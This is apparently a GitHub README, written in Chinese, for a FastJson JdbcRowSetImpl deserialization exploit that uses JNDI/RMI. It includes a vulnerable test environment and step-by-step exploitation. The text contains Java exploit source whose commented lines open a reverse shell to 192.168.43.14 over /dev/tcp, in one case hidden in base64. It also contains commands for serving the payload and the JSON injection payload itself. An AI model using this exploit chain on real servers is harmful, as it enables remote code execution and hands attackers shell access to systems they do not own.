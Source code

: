 # FastJson-JdbcRowSetImpl
### JNDI加载RMI方式，附漏洞环境 &amp; 利用Exp。

## 环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P path.... & cd  ${path}/opt/apache-tomcat-8.5.24/bin & ./startup.sh"
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java中构造commands命令数组

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 开始攻击并执行命令


